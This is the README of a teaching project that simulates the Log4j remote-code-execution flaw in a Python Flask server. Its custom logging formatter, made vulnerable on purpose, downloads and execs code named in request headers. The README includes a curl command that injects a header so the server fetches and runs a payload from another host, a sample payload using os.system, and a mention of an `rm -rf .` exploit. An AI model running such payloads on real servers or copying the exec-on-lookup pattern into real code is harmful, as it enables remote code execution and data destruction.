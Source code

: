 # py4jshell
Simulating Log4j Remote Code Execution (RCE) [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) vulnerability in a flask web server using python's logging library with custom formatter that simulates lookup substitution on URLs. This repository is a POC of how Log4j remote code execution vulnerability actually works, but written in python. Instead of using `JNDI+LDAP`, `HTTP` protocol is used for exploit code lookup.

**Note 1: Do not use this in production, this is a demonstration of RCE.**

**Note 2: This not a vulnerability in Python's logging library. We are writing a custom formatter for the logging library that simulates the inherit behaviour of Log4J library.**

**Note 3: The exploit code exploit/exploit2.py executes rm -rf . in the server's present working directory, if you want to try this, make sure you are running it inside a container and not directly on the host, as it may result in data loss.**

### How this works?
1. A GET request is made to the flask web server (`/hello`) from a HTTP client.
2. Flask framework invokes the logger to log this request, including the header.
3. Since we have patched the python's logging library to use our own formatter, the `format()` method implemented by our formatter `ShellishFormatter` is invoked.
4. The formatter performs original formatting and invokes `check_substitute_pattern` function which scans the string to be logged for `${{.+?}}` pattern.
5. If found, the URL inside this pattern is extracted, parsed and a HTTP GET request is made to the remote code hosting server pointed by the URL to download the exploit python code.
6. A runnable python object is constructed from the downloaded code dynamically using `exec` and `eval` interpreter methods. This object contains the executable exploit code.
7. Since we need to substitute the `${{.+?}} with the stringified result, we call `str()` over the object which calls `__str__()` method of the exploit object.
8. Anything that is written inside the `__str__()` method is blindly executed unless it returns a string at the end.

### Try it yourself:
#### 1. Build the docker image:
First, built the docker image of the flask server using the provided Dockerfile.
```
docker build . -t py4jshell
```

#### 2. Host the exploit code locally:
The directory `exploit/` contains two sample python exploit codes. You can host these exploits anywhere on the internet, you can also do it locally by running a static HTTP server from that directory, as:
```
cd exploit
python -m http.server 8080
```
If everything is alright, you should see this message:
```
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

#### 3. Start the container:
You can just open another terminal or anywhere in your local network, just start the server as follows:
```
docker run --rm -p 5000:5000 py4jshell
```
The container should start the web server, you should see the following message:
```
* Serving Flask app 'app' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://172.17.0.2:5000/ (Press CTRL+C to quit)
```

#### 4. Make get requests:
You can use curl or any other tool to make the GET request. Check `exploit1.sh` and `exploit2.sh` files.
You can also formulate your own request as follows:

```sh
HEADER_VAL="\${{http://192.168.0.104:8080/exploit1.py}}"

curl -X GET -H "Agent: ${HEADER_VAL}" \
    http://localhost:5000/hello
```
Note the header value for `Agent` field, it contains a URL from where the exploit code is downloaded.
If everything works fine, the server will download and execute the exploit code without complaining. You should see the output as below:
```
172.17.0.1 - - [17/Dec/2021 12:56:25] "GET /hello HTTP/1.1" 200 -
it worked!
Headers: Host: localhost:5000
User-Agent: curl/7.74.0
Accept: */*
Agent: Substituted text


172.17.0.1 - - [17/Dec/2021 12:56:44] "GET /hello HTTP/1.1" 200 -
```
As you an see there is `it worked!` message on the `stdout`, which is actually from the exploit code which runs `os.system("echo it worked!")`, check `exploit/exploit1.py`. Also, if you see the logs of the static http server which hosted the exploit code files, you should see:
```
172.17.0.2 - - [17/Dec/2021 18:26:44] "GET /exploit1.py HTTP/1.1" 200 -
```
Which indicates that there was a hit from the container to the static server to download the exploit code to perform remote code execution.

#### Passing parameters:
The sample formatter also supports passing custom parameters as arguments to the instantiated remote object, to pass parameters, you can encode them as GET URL parameters:
```
HEADER_VAL="\${{http://192.168.0.104:8080/exploit2.py?name=Prasanna}}"
```

Then in the exploit code you can receive them in the constructor:
```python3
class LogSubstitutor:
    def __init__(self, **kwargs) -> None:
        # do creepy things here.
        os.system("echo from constructor")
        self.name = kwargs.get("name", "NoName")

    def __str__(self) -> str:
        # the loader will call str(object) during substitution
        # so this method must written a string and we can do other
        # creepy things here as well.
        # LoL! don't run this on the host machine.
        os.system("echo rm -rf .")
        return "Hi {}".format(self.name)
```

### Notes:
1. This project is for educational purposes, it can be used to understand Remote code execution and how Log4j shell actually works and what makes it so dangerous.
2. This has nothing to do with python's original logging library as it does not perform any string substitutions by downloading and executing code from remote URLs, this functionality is purely implemented inside the custom formatter which is actually vulnerable.
3. Log4j uses JNDI + LDAP which is the way of performing lookups on remote Java objects. This method has been in practice since 1990 and has been used by lot of applications to solve some usecases. The actual LDAP + JNDI might not work exactly as how we have written the functionality in this repo, this is just a simulation.
4. Every interpreted language can be tricked into attacks like this if they expose some or the other way of dynamic code execution using `eval`, which is most common in many interpreted languages. It is left to the developers to write better code and make the world safer.
